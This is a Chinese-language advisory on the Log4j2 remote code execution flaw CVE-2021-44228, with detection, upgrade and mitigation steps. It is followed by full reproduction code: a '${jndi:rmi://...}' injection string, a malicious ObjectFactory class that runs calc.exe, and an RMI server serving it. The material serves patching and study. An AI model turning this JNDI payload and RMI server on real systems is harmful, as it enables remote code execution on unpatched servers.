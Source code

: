 # Apache log4j2 远程命令执行漏洞

## 1. 漏洞信息

漏洞软件： Apache Log4j2

漏洞编号：CVE-2021-44228

漏洞描述：Apache Log4j2 远程命令执行

时间：2021-11-26

漏洞详情：https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228

漏洞影响范围版本：2.0.beta9 to 2.14.1



## 2. 排查指导

查看引用了 `log4j-api` 和 `log4j-core` 两个jar包，如maven依赖：

```xml
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-api</artifactId>
            <version>2.14.1</version>
        </dependency>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-core</artifactId>
            <version>2.14.1</version>
        </dependency>
```

## 3. 修复方案

升级到 2.15.0 版本



## 4. 缓解措施

### 2.10 <= 版本 <= 2.14.1

以下方法任选一种：

1. 添加jvm参数：`-Dlog4j2.formatMsgNoLookups=true`
2. 在应用classpath下添加文件`log4j2.component.properties`，添加配置`log4j2.formatMsgNoLookups=true`
3. 添加系统环境变量 `LOG4J_FORMAT_MSG_NO_LOOKUPS=true`



### 2.0-beta9 <= 版本 < 2.10

在classpath中移除JndiLookup 

```shell
zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
```



参考官网信息：

![官网信息](https://img-blog.csdnimg.cn/7a94b6abe9ff4e69b1063e43e908b2b0.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5p2o5bCP54aK55qE56yU6K6w,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)



# 参考信息

[1. Apache Log4j2 官网漏洞信息](https://logging.apache.org/log4j/2.x/security.html)

[2. 缓解措施，环境变量名称应该为LOG4J_FORMAT_MSG_NO_LOOKUPS](https://github.com/apache/logging-log4j2/pull/614)

[3. Apache Log4j2 github地址](https://github.com/apache/logging-log4j2)

[4. 复现代码](https://github.com/YoungBear/log4j2demo)



# 复现代码

## 1. pom依赖

```xml
    <dependencies>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-api</artifactId>
            <version>2.14.1</version>
        </dependency>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-core</artifactId>
            <version>2.14.1</version>
        </dependency>
    </dependencies>
```

## 2. 被攻击代码

```java
package com.example.log4j2demo;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4j2Demo {
    private static final Logger LOGGER = LogManager.getLogger(Log4j2Demo.class);


    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        System.out.println("begin of print log...");

        String logContent = "${jndi:rmi://127.0.0.1:1099/evil}";
        // 模拟另外一台机器运行恶意代码
//        String logContent = "${jndi:rmi://192.168.3.57:1099/evil}";
        LOGGER.error("hello, {}", logContent);
        System.out.println("end of print log...");
    }
}
```



## 2. 恶意代码(以启动计算器为例)

```java
package com.example.log4j2demo;

import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.util.Hashtable;

public class EvilObj implements ObjectFactory {

    static {
        System.out.println("begin to run EvilObj static code...");

        try {
            Process p = Runtime.getRuntime().exec(new String[]{"cmd", "/c", "calc.exe"});
            InputStream inputStream = p.getInputStream();
            BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));
            String line;
            while ((line = reader.readLine()) != null) {
                System.out.println(line);
            }
            p.waitFor();
            inputStream.close();
            reader.close();
            p.destroy();

        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        System.out.println("getObjectInstance of EvilObj ...");
        return null;
    }

}

```



## 4. RMIServer

```java
package com.example.log4j2demo;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIServer {
    public static void main(String[] args) {
        try {
            LocateRegistry.createRegistry(1099);
            Registry registry = LocateRegistry.getRegistry();
            System.out.println("Create RMI registry on port 1099...");

            String className = "com.example.log4j2demo.EvilObj";
            Reference reference = new Reference(className, className, className);
            ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
            registry.bind("evil", referenceWrapper);
            System.out.println("registry bind ...");

        } catch (Exception e) {
            e.printStackTrace();

        }
    }
}

```

